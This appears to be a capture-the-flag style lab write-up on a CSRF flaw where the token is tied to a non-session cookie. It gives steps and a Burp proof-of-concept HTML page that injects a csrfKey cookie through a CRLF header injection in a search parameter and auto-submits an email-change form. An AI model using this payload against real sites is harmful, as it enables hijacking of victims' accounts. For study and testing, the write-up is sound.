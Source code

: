 # Lab: CSRF where token is tied to non-session cookie

Login with the creds provided and turn on the proxy. Initiate an email address change and intercept the request. Send it to the repeater and observe that changing the csrfKey results in the CSRF token being rejected, while changing the session cookie results in logout.

Login with the other provided creds and initiate an email address change. Intercept the request and replace the csrfKey with the value from the other user. Observe that the request is successful.

Perform a search and send the resulting request to the repeater. Notice that the search term is reflected in the SetCookie header. This can be used to inject cookies into the victim's browser since it implements no CSRF protection: `/?search=something%0d%0aSet-Cookie:%20csrfKey=<value>`

Use the following to trigger the exploit when a victim clicks on the link (the <img> tag contains the cookie setting functionality and is used instead of a script block):

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ace91f751e85a8eec0141a6900db00af.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;com" />
      <input type="hidden" name="csrf" value="g3ePPc9vvaOYqMnYwQ0URmmuwwzHN67o" />
    </form>
    <img src="https://ace91f751e85a8eec0141a6900db00af.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YfAgkgMbjryYgl4WEMKf1qspC6Q93wZS" onerror="document.forms[0].submit()">
  </body>
</html>
```